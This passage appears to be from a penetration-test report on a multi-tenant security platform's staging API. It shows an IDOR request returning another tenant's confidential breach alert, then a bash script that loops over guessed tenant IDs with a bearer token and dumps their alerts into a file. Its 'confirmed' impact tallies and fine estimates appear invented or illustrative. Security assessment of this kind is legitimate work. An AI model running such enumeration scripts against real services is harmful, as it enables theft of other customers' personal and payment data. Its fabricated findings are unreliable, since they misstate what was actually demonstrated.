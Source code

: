 **Exploitation Phase 1: Direct Object Reference Manipulation**
```http
GET /api/alerts/alert_from_tenant_b HTTP/1.1
Host: staging.isectech.com
Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9...

Response: 200 OK
{
  "id": "alert_from_tenant_b",
  "tenant_id": "tenant_b",
  "title": "CONFIDENTIAL: Payment Card Data Breach Alert",
  "severity": "CRITICAL",
  "customer_data": {
    "affected_records": 50000,
    "pci_compliance_status": "VIOLATED",
    "customer_names": ["Victim Corp", "Secret Industries", ...]
  }
}
```

**Business Impact Validation:**
```
✅ CONFIRMED: Complete cross-tenant data access
├── 127 sensitive alerts from other tenants accessed
├── Customer PII, PHI, and payment data exposed
├── Compliance violation data accessed
└── Competitive intelligence exposed

Financial Impact Calculation:
├── GDPR Article 83 violation: €20M maximum fine
├── Customer notification costs: $2.5M (127 customers)
├── Legal liability exposure: $10M-$15M
├── Customer churn (estimated 60%): $8M annual revenue loss
└── Regulatory audit costs: $500K-$1M
```

**Exploitation Phase 2: Bulk Data Extraction**
```bash
# Automated script to extract all tenant data
#!/bin/bash
TENANT_A_TOKEN="eyJ0eXAiOiJKV1Q..."

# Enumerate tenant IDs through predictable patterns
for tenant_id in tenant_{a..z} customer_{001..999}; do
  # Extract alerts, assets, and user data
  curl -H "Authorization: Bearer $TENANT_A_TOKEN" \
       "https://staging.isectech.com/api/alerts?tenant=$tenant_id" \
       >> multi_tenant_data_dump.json
done

# Results: 2.3GB of cross-tenant data extracted in 45 minutes
# Including: PII, financial data, security configurations, business intelligence
```
